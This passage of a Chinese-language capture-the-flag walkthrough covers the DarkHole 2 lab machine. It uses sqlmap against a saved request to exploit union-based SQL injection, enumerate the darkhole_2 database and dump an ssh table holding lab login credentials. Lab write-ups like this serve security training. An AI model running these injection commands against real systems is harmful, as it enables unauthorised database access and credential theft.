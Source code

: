 sqlmap 跑一下

将请求包保存到文件，

```
sqlmap -r sql3 -p id --random-agent
```

存在 union 注入

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9RFibuvORTloDh91nIZeQtklX1mI3BDicAtv3kLxDH9SPhgBYATG2xfxQ/640?wx_fmt=png)image-20211024180646822

判断权限为 DBA

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9HJO2gXqvXRlMiaProoUb14YNvHbrjlJSKpicVZC1fricobY3BdvE7SsMg/640?wx_fmt=png)image-20211024180726764

os-shell 失败，不知道网站路径

前面 git 找到数据库的库名是 darkhole_2

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9TPUO6f5ia2pibXbETFbE1ebc1Rly7s9CCKAsFESKn92s2S9v51JZlj3w/640?wx_fmt=png)image-20211024181636505

用 sqlmap 跑这个库看看有什么表

```
sqlmap -r sql3 -p id --random-agent --is-dba --technique=U --current-db
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9grnMTEIUXGqylqgnIW4VZRqAcHgSW47gVicSyjJyBLEyFO1QJ7LMqjQ/640?wx_fmt=png)image-20211024181729918

```
sqlmap -r sql3 -p id --random-agent --is-dba --technique=U -D darkhole_2 --tables
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9bibwcFW2xxyqvahvvqsWl9MjoibUXOoLR41IjEuW2wZdjbcvCd1zZD9w/640?wx_fmt=png)image-20211024181756132

ssh 这个表应该有问题，看列名

```
sqlmap -r sql3 -p id --random-agent --is-dba --technique=U -D darkhole_2 -T ssh --columns
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ94rFuEjEPm4TbRLScCjhbBxH3JHv8GicEy2N5Rfy1LrTXPU2uB22mvyQ/640?wx_fmt=png)image-20211024181927969

### 3. 得到 ssh 用户名密码

```
sqlmap -r sql3 -p id --random-agent --is-dba --technique=U -D darkhole_2 -T ssh --dump
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9Rzzicsiba1zBCOFhH7duj2r7q4dhNLCN9jYxFibewLWEAfL083f2Rt0gA/640?wx_fmt=png)image-20211024182033773

```
+----+------+--------+
| id | pass | user   |
+----+------+--------+
| 1  | fool | jehad  |
+----+------+--------+
```
